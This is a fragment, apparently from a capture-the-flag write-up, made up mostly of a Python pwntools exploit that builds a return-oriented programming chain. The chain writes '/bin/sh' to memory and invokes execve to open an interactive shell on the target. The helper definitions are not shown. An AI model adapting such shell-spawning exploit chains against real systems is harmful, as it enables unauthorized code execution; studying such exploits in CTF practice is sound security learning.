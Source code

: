 ```python
num_writes = b'100'
io.sendline(num_writes)

#padding
for i in range(padding_ints//2): #we write two ints per function call
    write_zero()

# write /bin/sh to memory
write(POP_RAX)
write(binsh_string)
write(POP_RDX)
write(write_addr)
write(mov_qword_ptr)
write_zero()

# call execve
write(POP_RAX)
write(59)
write(POP_RDI)
write(write_addr)
write(POP_RDX)
write_zero()
write(POP_RSI)
write_zero()
write(SYSCALL)

io.sendline(b'5')

io.clean()
io.interactive()
```
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/10eac3f7-9ea4-4222-b081-0771bef93c78)






